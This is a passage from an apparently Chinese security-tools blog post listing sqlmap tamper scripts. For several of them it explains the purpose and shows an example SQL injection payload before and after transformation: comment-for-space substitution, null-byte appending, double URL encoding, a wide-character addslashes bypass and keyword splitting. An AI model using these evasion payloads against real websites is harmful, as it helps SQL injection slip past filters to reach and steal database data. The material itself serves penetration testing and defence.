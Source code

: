 8、space2comment.py

作用：将空格替换成 /\*\*/

```
SELECT id FROM users替换后SELECT/\*\*/id/\*\*/FROM/\*\*/users
```

六、Microsoft Access 数据库

1、appendnullbyte.py

作用：在有效负荷结束位置加载零字节字符编码

```
('1 AND 1=1')替换后'1 AND 1=1%00'
```

七、其他数据库

1、chardoubleencode.py

作用：双 url 编码 (不处理已编码的)

```
SELECT FIELD FROM%20TABLE替换后%2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545
```

2、unmagicquotes.py

作用：宽字符绕过 GPC  addslashes

```
1′ AND 1=1替换后1%bf%27 AND 1=1--
```

3、randomcomments.py

作用：用 /\*\*/ 分割 sql 关键字

```
'INSERT'替换后'IN/\*\*/S/\*\*/ERT’
```

禁止非法，后果自负

欢迎关注公众号：web 安全工具库

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibusRbVECWwgXXRCVZZXmEeC1jgMhKrue6jwdczbkr0qgFlUtkWHFjFIFC7zNcMCxXKdQLV0eYXrRQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibusRbVECWwgXXRCVZZXmEeCticeicGR16nB7ppw2uiaA9BT47Dr5LtzIMA0U1dtgkoCtEfVtQUF8l3LA/640?wx_fmt=jpeg)